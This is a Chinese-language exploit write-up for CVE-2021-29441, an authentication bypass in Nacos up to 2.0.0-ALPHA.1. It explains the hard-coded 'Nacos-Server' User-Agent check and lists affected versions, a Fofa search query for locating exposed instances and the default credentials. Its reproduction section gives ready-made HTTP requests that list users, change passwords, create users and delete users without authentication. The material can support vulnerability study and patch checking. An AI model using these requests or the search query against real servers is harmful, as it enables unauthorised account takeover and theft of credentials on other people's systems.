

# CVE-2021-29441

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Nacos未授权访问漏洞


# 0X01 漏洞描述

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息

# 0X02 影响范围

```cpp
Nacos版本<=Nacos 2.0.0-ALPHA.1
```

# 0X03 Fofa语法

```cpp
app="nacos"
```

# 0X04 环境搭建



**默认账号密码：** nacos/nacos


# 0X05 漏洞复现

## 验证是否存在漏洞

```cpp
//GET请求
http://192.168.100.141:8848/nacos/v1/auth/users?pageNo=1&pageSize=1

User-Agent: Nacos-Server
```


## 修改密码

```cpp
//PUT请求
http://192.168.100.141:8848/nacos/v1/auth/users?username=test11&newPassword=123456

User-Agent: Nacos-Server
```


## 创建用户

```cpp
//POST请求
http://192.168.100.141:8848/nacos/v1/auth/users?username=test10&password=test10

User-Agent: Nacos-Server
```


## 删除用户

```cpp
//DELETE请求 
http://192.168.100.141:8848/nacos/v1/auth/users?username=test10

User-Agent: Nacos-Server
```
